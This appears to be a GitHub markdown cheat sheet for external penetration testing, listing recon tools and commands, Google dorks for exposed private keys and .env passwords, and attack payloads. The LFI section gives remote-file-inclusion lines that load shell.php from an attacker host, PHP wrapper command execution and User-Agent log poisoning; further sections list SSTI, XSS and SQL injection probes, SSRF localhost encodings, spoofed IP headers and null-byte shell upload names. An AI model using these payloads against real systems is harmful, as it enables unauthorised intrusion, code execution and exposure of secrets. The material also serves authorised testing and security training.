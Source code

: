 # External Penetration Testing

## **Tools**

Automated

- [Sn1per](https://github.com/1N3/Sn1per)
- [AutoRecon](https://github.com/Tib3rius/AutoRecon)
- [Legion](https://github.com/carlospolop/legion)

Manual

- [Arsenal](https://github.com/Orange-Cyberdefense/arsenal)

```bash
# Install Sn1per
docker pull xerosecurity/sn1per
docker run -it xerosecurity/sn1per /bin/bash
# Manual install
git clone https://github.com/1N3/Sn1per && cd Sn1per && bash install.sh

# Install AutoRecon
sudo docker build -t tib3rius/autorecon .
# Manual install
apt install -y python3 python3-pip python3-venv
python3 -m pip install --user pipx && python3 -m pipx ensurepath
# on another terminal
apt install -y seclists curl enum4linux gobuster nbtscan nikto nmap onesixtyone oscanner smbclient smbmap smtp-user-enum snmp sslscan sipvicious tnscmd10g whatweb wkhtmltopdf

# Install Legion
docker build -t legion .
docker run -it legion bash
# Manual install
git clone https://github.com/carlospolop/legion.git /opt/legion && cd /opt/legion/git && ./install.sh && ln -s /opt/legion/legion.py /usr/bin/legion

# Install Arsenal
git clone https://github.com/Orange-Cyberdefense/arsenal.git && cd arsenal && python3 setup.py install
```


--- 

## **Passive discovery**

dork on domain

```bash
inurl:example.com intitle:"index of"
inurl:example.com intitle:"index of /" "*key.pem"
inurl:example.com ext:log
inurl:example.com intitle:"index of" ext:sql|xls|xml|json|csv
inurl:example.com "MYSQL_ROOT_PASSWORD:" ext:env OR ext:yml -git
```

get url in file

```bash
cat file | grep -Eo "(http|https)://[a-zA-Z0-9./?=_-]*"*
curl http://host.xx/file.js | grep -Eo "(http|https)://[a-zA-Z0-9./?=_-]*"*
```

get js script

```bash
go get github.com/tomnomnom/waybackurls
waybackurls internet.org | grep "\.js" | uniq | sort
```

---

## **Active discovery**

### Services

```bash
nmap -sS -sV -O --top-ports 1000 --script=banner,nse,http-head -oA top_1000
nmap -sT -sV -O -p- -oA full_scan
nmap -sU -sV --top-ports 1000 --open -oA udp_1000
```

---

### Subdomains

```bash
amass enum -ip -brute -active -d <domain> 

gobuster dns -i  -w subdomains.txt -d <domain> 
```

check if subdomain exist

```bash
cat alive-subdomains.txt | parallel -j50 -q curl -w 'Status:%{http_code}\t Size:%{size_download}\t %{url_effective}\n' -o /dev/null -sk
```

---

### Vhosts

```bash
nmap --script http-vhosts -p 80,8080,443 <target>

gobuster vhost -u <url> -w common-vhosts.txt

Burp Intruder (Host header)
```

---

### Urls

```bash
dirsearch -u <target> -e php,html,js,xml -x 500,403

wfuzz -c -z file,/root/wordlist.txt --hc 404 <target>/FUZZ

gobuster dir -u https://buffered.io -w ~/wordlists/shortlist.txt -l -v

Burp Pro (Content Discovery)
```

URL finder

```bash
wget -qO- https://stackoverflow.com/ | grep -Eo "(http|https)://[a-zA-Z0-9./?=_-]*" | sort -u
```
link finder

```bash
https://github.com/GerbenJavado/LinkFinder
 python linkfinder.py -i https://example.com -d -o cli
```

Directory listing recustive dump

```bash
wget -r --no-parent target.com/dir
```

Find asset and params

```bash
assetfinder example.com | gau | egrep -v '(.css|.png|.jpeg|.jpg|.svg|.gif|.wolf)' | while read url; do vars=$(curl -s $url | grep -Eo "var [a-zA-Z0-9]+" | sed -e 's,'var','"$url"?',g' -e 's/ //g' | grep -v '.js' | sed 's/.*/&=xss/g'); echo -e "\e[1;33m$url\n\e[1;32m$vars"; done
```

---

## **LFI**

### Get shell

**RFI**

```bash
<target>?page=http://<attacker>/shell.php
<target>?page=\\<attacker>\<shared_folder>\shell.php
```

**PHP wrappers**

PHP Expect

```bash
<target>?page=expect://id
<target>?page=expect://ls
```

PHP Input 

Using a proxy like Burp, change the request to a POST request and use the wrapper "php://input", then put your php code into the request body :

Raw Request :
```php
POST <targeturi>/<vulnrable_paramter>=php://input
host: <target>

<?php phpinfo(); ?>
```
**access_log**

If you find the access log, you can make a request with your php code 

**proc/self/environ**

Send the payload into User-Agent, and browse the /proc/self/environ file :

```bash
<target>?page=../../../proc/self/environ HTTP/1.1
User-Agent: <?php phpinfo(); ?>
```

## **Injections**

### SSTI

```bash
"<%= 7 * 7 %>"@example.com 
test+(${{7*7}})@example.com
```

---

### XSS

```bash
test+(<script>alert(0)</script>)@example.com
test@example(<script>alert(0)</script>).com
"<script>alert(0)</script>"@example.com
```

---

### SQLI

For http://site.com/?q=INJECT_HERE

```bash
/?q=1
/?q=1'
/?q=1"
/?q=[1]
/?q[]=1
/?q=1`
/?q=1\
/?q=1/*'*/
/?q=1/*!1111'*/
/?q=1'||'asd'||'   <== concat string
/?q=1' or '1'='1
/?q=1 or 1=1
/?q='or''='
```

---

## **Bypass WAF**


SSRF localhost

```bash
http://127.1/
http://0000::1:80/
http://[::]:80/
http://2130706433/
http://whitelisted@127.0.0.1
http://0x7f000001/
http://017700000001
http://0177.00.00.01
```

X-Header

```bash
Accept: application/json, text/javascript, */*; q=0.01 
Host : localhost
X-Originating-IP: IP
X-Forwarded-For: IP
X-Remote-IP: IP
X-Remote-Addr: IP
X-Client-IP: IP
X-Host: IP
X-Forwared-Host: IP
```

NullByte

```bash
file.jpg%00shell.php
shell.php%00file.jpg
shell.php%00.jpg
```

---


## **Burp Extenders**

Extension|Description
---|----
`Retire.js`|[find vulnerable JavaScript libraries](https://github.com/PortSwigger/retire-js)
`Autorize`|[find privileges escalations by replaying admin requests as a simple user](https://portswigger.net/bappstore/f9bbac8c4acf4aefa4d7dc92a991af2f)